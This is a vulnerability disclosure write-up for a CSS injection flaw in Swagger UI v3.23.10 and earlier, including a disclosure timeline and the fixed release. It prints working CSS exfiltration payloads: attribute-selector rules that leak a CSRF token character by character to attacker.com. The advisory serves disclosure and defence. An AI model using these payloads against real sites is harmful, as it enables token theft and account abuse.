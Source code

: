 # CSS-injection-in-Swagger-UI

We have found a CSS Injection vulnerability on Swagger UI that allows attacker to use the Relative Path Overwrite (RPO) [1][2] technique to perform CSS-based input field value exfiltration. In our PoC, we were able to successfully steal the CSRF token value.

**Researcher: Kevinlpd (DatLP) of The Tarantula Team, VinCSS (a member of Vingroup)**

## What is Swagger UI

Swagger UI allows anyone — be it your development team or your end consumers — to visualize and interact with the API’s resources without having any of the implementation logic in place. It’s automatically generated from your OpenAPI (formerly known as Swagger) Specification, with the visual documentation making it easy for back end implementation and client side consumption.

## Background

We've discovered the vulnerability when reading the following in the document of Swagger [3]:

```
We’ve observed that the ?url= parameter in SwaggerUI allows an aacker to override an otherwise hard‐coded schema file
The decision was made to put this in the public issue tracker because (a) we aren’t going to immediately fix this, and (b) the aack surface for this is significantly diminished by our effecve sanizaon efforts to deter XSS aacks in documents used as input.
```
Swagger had known the issue, but Swagger thought that this vulnerability could not lead to an Cross-Site Scripting (XSS) exploit, so they ignored it. So we have decided to further research on this issue. 

### Injection step:

We realize that Swagger UI allows users to embed untrusted Json format from remote servers 

```javascript
var url = window.location.search.match(/url=([^&]+)/);
// ...
url = options.swaggerUrl || url
// ...
var swaggerOptions = {
    spec: spec1,
url: url, // ...
}
var ui = SwaggerUIBundle(swaggerOptions)
```

This means we can inject json content via the GET parameter to victim Swagger UI. In the json content we use the <style> tag and CSS @import rule to load the CSS payload:
    
![](PoC-RPO-1.png)
    
### Exfiltration step:

With CSS payload, we can use Relative Path Overwrite (RPO) technique to perform CSS-based input field value exfiltration [4]. The following CSS code will generate a callback query to the attacker's server (https://attacker.com/exfil/a) if the CSRF token value starts with the character a, similarly it will make other requests (https://attacker.com/exfil/b; https://attacker.com/exfil/c; https://attacker.com/exfil/d, etc) if the CSRF token value begins with character b, character c or character d. Continue to try in turn for each character in range A-Z and range 0-9 until we found the first character in the CSRF token value:

```css
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
...
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);
```
And after we have found the first character in the CSRF token value, we will continue to search for the second character and so on:

```css
input[name=csrf][value^=aa]{
    background-image: url(https://attacker.com/exfil/ca);
}
input[name=csrf][value^=ab]{
    background-image: url(https://attacker.com/exfil/cb);
}
 ...
input[name=csrf][value^=a9]{
    background-image: url(https://attacker.com/exfil/c9);
```

With sequential @import chaining as below so we can steal full of CSRF token value:

![](sequential%20import%20chaining.png)

You can automate all of step by using the [sic](https://github.com/d0nutptr/sic) tool [5]

And we got the following result:

![](PoC-RPO-2.png)

    
## Tested versions

Swagger UI v3.23.10 and older versions

## Disclosure timeline

- September 17, 2019: Report and discuss with maintainer for Swagger UI.
- September 20, 2019: Ask maintainer for vulnerability disclosure.
- September 21, 2019: Swagger UI has released a new version that has addressed the vulnerability.
- September 21, 2019: Get approval from maintainer for disclosure on October 6, 2019.


## Reference

1. [RPO](http://www.thespanner.co.uk/2014/03/21/rpo/)
2. [Detecting and exploiting path‐relative stylesheet import (PRSSI) vulnerabilities | PortSwigger Research](https://portswigger.net/research/detecting-and-exploiting-path-relative-stylesheet-import-prssi-vulnerabilities)
3. [Swagger UI | API Development Tools | Swagger](https://swagger.io/tools/swagger-ui/)
4. [Exfiltration via CSS Injection](https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d)
5. [GitHub ‐ d0nutptr/sic: A tool to perform Sequential Import Chaining](https://github.com/d0nutptr/sic)
6. [Attribute selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors)
7. [Better Exfiltration via HTML Injection ‐ d0nut ‐ Medium](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b)
8. [2019‐s3_css_injection_attacks.pdf](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf)
9. [RPO Gadgets](https://blog.innerht.ml/rpo-gadgets/)
10. [add an `enableQueryConfig` option issue #4872](https://github.com/swagger-api/swagger-ui/issues/4872)
11. [mitigate "sequential @import chaining" vulnerability issue #5616 ](https://github.com/swagger-api/swagger-ui/pull/5616)
12. [Swagger UI 3.23.11 Released! This release contains a security fix that addresses a CSS-based input field value exfiltration vulnerability](https://github.com/swagger-api/swagger-ui/releases/tag/v3.23.11)


